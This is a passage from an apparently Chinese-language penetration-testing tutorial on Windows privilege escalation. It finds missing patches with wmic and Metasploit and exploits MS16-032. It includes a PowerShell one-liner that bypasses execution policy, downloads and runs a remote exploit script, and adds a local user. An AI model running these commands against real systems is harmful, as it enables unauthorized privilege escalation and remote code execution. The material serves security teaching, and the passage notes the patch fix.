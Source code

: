 [![2iOOEQ.png](https://z3.ax1x.com/2021/05/28/2iOOEQ.png)](https://imgtu.com/i/2iOOEQ)

可以看到目标机器上只安装了两个补丁。

这些输出的结果是不能直接利用的。我们通常采用的方式是：寻找提权的 EXP，将已安装的补丁编号与提权的 EXP 编号进行对比，例如 KiTrap0D 和 KB979682、MS11-011 和 KB2393802、MS11-080 和 KB2592799、MS10-021 和 KB979683，然后使用没有编号的 EXP 进行提权。

常见 EXP 参考：[here](https://github.com/SecWiki/windows-kernel-exploits)

依托可以提升权限的 EXP 和它们的补丁编号，执行下列命令，对系统补丁包进行过滤。可以看到，已经安装了 KB976902，但没有安装 KB3143141：

```
wmic qfe get caption,description,hotfixid,installedon | findstr /C:"KB3143141" /C:"KB976902"
```

[![2ixJPJ.png](https://z3.ax1x.com/2021/05/28/2ixJPJ.png)](https://imgtu.com/i/2ixJPJ)

> 知识点：
>
> "wmic" 是 "Windows Management Instrumentation Command-line" 的缩写。WMIC 是 Windows 平台上最有用的命令行工具。使用 WMIC，不仅可以管理本地计算机，还可以管理同一域内的所有计算机 (需要一定权限)，而且在被管理的计算机上不必事先安装 WMIC。
>
> WMIC 在信息收集和后渗透测试阶段是非常实用的，可以调取和查看目标机器的进程、服务、用户、用户组、网络连接、硬盘信息、网络共享信息、已安装的补丁、启动项、已安装的软件、操作系统的相关信息和时区等。

如果目标机器中存在 MS16-032 (KB3139914) 漏洞，那么攻击者不仅能够利用 Metasploit 进行提权，还能够利用 PowerShell 下的 Invoke-MS16-032.ps1([here](https://gitee.com/radua/K8tools/blob/master/Invoke-MS16-032.ps1)) 脚本进行提权。

把 Invoke-MS16-032.ps1 脚本上传到目标机器中 (也可以远程下载并运行)，然后执行如下命令，提权创建一个用户：

```
.\invoke-ms16-032.ps1
invoke-ms16-032 -application cmd.exe -commandline "/c net localgroup oh oh /add"
```

远程下载、提权、添加用户：

```
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline '/c net localgroup oh oh /add'"
```

MS16-032 漏洞的补丁编号是 KB3139914。如果发现系统中存在该漏洞，只要安装相应的补丁即可。

#### 利用 Metasploit 发现缺失补丁

利用 Metasploit 中的 post/windows/gather/enum_patches 模块，可以根据漏洞编号快速找出系统中缺少的补丁 (特别是拥有 Metasploit 模块的补丁)。

```
use post/windows/gather/enum_patches
set session 1
run
```

[![2kKYC9.png](https://z3.ax1x.com/2021/05/28/2kKYC9.png)](https://imgtu.com/i/2kKYC9)

```
use post/multi/recon/local_exploit_suggester
set session 1
run
```
